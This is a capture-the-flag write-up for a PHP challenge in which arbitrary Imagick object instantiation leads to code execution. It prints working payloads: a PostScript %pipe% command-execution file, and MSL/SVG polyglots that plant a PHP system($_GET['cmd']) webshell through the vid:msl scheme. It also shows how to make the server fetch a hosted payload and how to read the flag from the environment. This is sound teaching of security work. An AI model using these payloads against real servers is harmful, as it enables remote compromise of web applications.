 # PHP & Arbitrary Object Instantiation
The September 2022 CTF released by @leonjza from Orange Cyberdefense was challenging, informative and a lot of fun. The challenge context was PHP and Code Execution via Arbitrary Object Instantiation, but I wont give away the ending quite yet.

I encourage you to first try it out, the URL is https://goldfish-tj6gf.ondigitalocean.app/index.html.

## The Eagle has landed
The landing page greets you with a few UI components, a file upload selector, a dropdown to select a size value between 1 and 4, a "send" button to upload the file and a link at the bottom labelled "Check DB".

![Landing page](Landing_page.png)

Uploading an image does not display your selected image, but it does open *an* image. 

![Upload page](upload_image.png)

Take note of the URI in the address bar - it is very important as it includes a clue as to the underlying code used to manipulate the images, the URI is "image.php?module=**Imagick**&params=NULL&size=1". A Google search for **Imagick** produces quite a few results, and we are on the track to discover our solution. 
ImageMagick is a library that can be used to manipulate images and PDF's via code on the server.

Funnily enough the evening I started the challenge,I saw on twitter someone had posted an Imagick RCE payload, and the stage was set..... wait Mr. Rabbit I'm on my way...

The payload for a single gif or jpg file is..
(Keep this one in your list of payloads to try, it may work under other circumstances)
```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%COMMAND_OF_CHOICE) currentdevice putdeviceprops
```

After emerging from this detour, I was actually quite grateful for it, because of what I had managed to learn about ImageMagick. ImageMagick has a policy.xml file and this is very important to the security of a website. In this policy you can set many aspects of how ImageMagick processes files, but one of them is, which **coders** can run, as shown below.

```<policy domain="coder" rights="write" pattern="PS"/>```

The rights can be set to be "read" and/or "write" or "none" for each type of coder. Link to documentation: https://imagemagick.org/script/security-policy.php 

Due to this my payload was not being run and it kept throwing an error about the "PS" coder being blocked.

## File inception
One of the many google results pointed me in the direction of a polgyglot MSL(Magick Scripting Lanaguage) file, this is almost equivalent to a file within a file, something similar to an html file that references an xml file, which happens to be embedded in the original html file. Link to website: https://www.synacktiv.com/en/publications/playing-with-imagetragick-like-its-2016.html

An msl file in ImageMagick is a scripting file that can run within the ImageMagick context. Link to documentation: https://imagemagick.org/script/conjure.php#msl

The RCE capability comes in where we can embed an msl file within an svg file. Once an instance of Imagick is instantiated using the svg file it will reference the msl file, as seen in the website link above.

There is however one caveat, the file needs to know its own location and name, so it can be referenced directly on the filesystem.
For example if you upload the file to /uploads/myimage.svg then you would need to reference it in the svg file as xlink:href="/var/www/html/uploads/myimage.svg". 

An example would be
```
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="caption:&lt;?php system($_GET['cmd']); ?&gt;" />
 <write filename="info:{your webshell file name and path}" />
  <svg width="1" height="1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
    <image xlink:href="/var/www/html/uploads/myimage.svg" height="1" width="1"/>
  </svg>
</image>
```
In the above payload we see the svg tags located within the image tags, and ImageMagick handles that without a problem. The SVG file will reference the msl file(itself) and then run the image part of it which will write a webshell payload to the path of your choosing.

However, in the challenge the files are saved to the /tmp directory using a randomized name so this is not possible.
A bit more reading and I discovered this link https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/ which gave me the correct way forward. ImageMagick has a vid scheme which can reference files without knowing the exact name. Please go to the link above as it explains in more detail how the vid scheme works.

Now all we need, is to find a way of referencing our svg file name at least partially. When the file is uploaded and processed it creates a temporary file in the /tmp directory as I mentioned, and the file name is always prepended with **magick-** and so we can settle on a final payload as shown below.

```
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="caption:&lt;?php system($_GET['cmd']); ?&gt;" />
 <write filename="info:{your webshell file name and path}" />
 <svg width="1" height="1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
    <image xlink:href="vid:msl:/tmp/magick*" height="1" width="1"/>
 </svg>
</image>
```
## But uploading the file doesn't work!!
If you just upload the payload, no webshell will be created due to the code in the upload php file (you can take a look shortly when you have your webshell :)). The object instantiation is only triggered when you use the "params" parameter in the URI of the image.php page. By using the parameters to construct an instance of Imagick in PHP, we can control which file is used in the constructor via the "params" value and this is processed lower down the code chain as explained in the link(https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/).

You can get more information on the Imagick constructor at the documentation link : https://www.php.net/manual/en/imagick.construct.php.

Hosting the file and then referencing it from that location will cause the file to be downloaded. This will cause the webshell to be written to your chosen path, keep in mind the webshell will have to be accessible from the web.
We need to figure out the path of the web site root folder. I did this by forcing an error, one way is to leave the "params" without a value, this gives us an error message and so after a few attempts we find that the correct path to write the webshell to is /var/www/html. 
Now all we need to do is change the webshell path and change the "params" to our hosted image path, ie "image.php?module=Imagick&params=**http:// {example.com}/{your svg file}**&size=1".

## LIGHTS,CAMERA...ACTION!!
The result of a *successful* upload is a new error page.
![RCE success](upload_successful.png)

But typing in the path to your webshell file will load the previously non-existant page. WELL DONE!!
Your webshell works!

##Let's get that FLAG!!! 
Running the ls command, we see a few files in the web directory.

**(Mini challenge can you find the flag! go for it!).**

After printing out the lisitng of the files, we almost ignore the "Dockerfile" file, however this is where the clue lies.
![Dockerfile](Dockerfile.png)

Printing out that file reveals the location of our flag:
```ARG flag_value ENV FLAG ${flag_value}```

Finally we run the "env" command and there it is, in an entry called "FLAG=".

Thank You @leonjza for the opportunity to learn.
